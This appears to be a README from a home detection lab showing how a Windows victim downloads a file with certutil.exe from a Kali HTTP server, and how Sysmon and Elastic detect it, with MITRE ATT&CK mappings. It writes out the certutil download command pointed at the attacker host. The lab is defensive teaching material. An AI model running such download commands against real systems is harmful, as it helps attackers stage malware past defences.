




# Case 08 - Certutil Payload Download

## 📌 Objective

Detect and investigate file download activity performed using the Windows trusted native utility (`certutil.exe`) via Sysmon and the Elastic Stack.

---

## 💻 Lab Environment

| Machine | Role | IP Address |
| :--- | :--- | :--- |
| **Kali Linux** | Attacker / HTTP Server | `192.168.56.102` |
| **Windows 10** | Victim | `192.168.56.103` |
| **Host Laptop** | Elastic + Kibana (SIEM) | `192.168.56.1` |

---

## ⚔️ Attack Scenario & Commands Used

### Step 1: Prepare the Payload

The attacker created a sample file named `payload.txt` on the Kali Linux machine to simulate a payload that would later be downloaded by the victim.

```bash
echo "This is a test payload." > payload.txt
```

The screenshot below shows the payload file created on the attacker machine.



---

### Step 2: Start the HTTP Server

The attacker started a Python HTTP server on port **8000** to host the payload file.

```bash
python3 -m http.server 8000
```

The screenshot below shows the HTTP server running and ready to serve the payload.



---

### Step 3: Download the Payload Using Certutil

On the Windows endpoint, the attacker abused the native Windows utility **`certutil.exe`** to download the payload from the remote HTTP server.

```cmd
certutil.exe -urlcache -split -f http://192.168.56.102:8000/payload.txt C:\Temp\payload.txt
```

The screenshot below shows the successful execution of the `certutil.exe` download command.



---

### Step 4: Verify the Download

The destination folder (`C:\Temp`) was inspected to confirm that the payload had been successfully downloaded.

The screenshot below verifies that `payload.txt` exists on the Windows endpoint.



---

## 🔍 Detection & Key Findings

- **Detection Method:** Sysmon Event ID 1 (Process Creation) and Sysmon Event ID 3 (Network Connection) forwarded via Winlogbeat
- **Process Name:** `certutil.exe`
- **Source IP (Victim):** `192.168.56.103`
- **Destination IP (Attacker):** `192.168.56.102`
- **Severity:** 🟡 Medium
- **MITRE ATT&CK Mapping:**
  - `T1218` – System Binary Proxy Execution
  - `T1105` – Ingress Tool Transfer

---

## 📖 Case Documentation & References

For a detailed analysis of the process execution, network telemetry, and MITRE ATT&CK mapping, refer to the supporting documentation below:

- 🕵️ **Investigation Report:** [investigation.md](investigation.md)
- 🛡️ **MITRE ATT&CK Mapping:** [mitre-mapping.md](mitre-mapping.md)
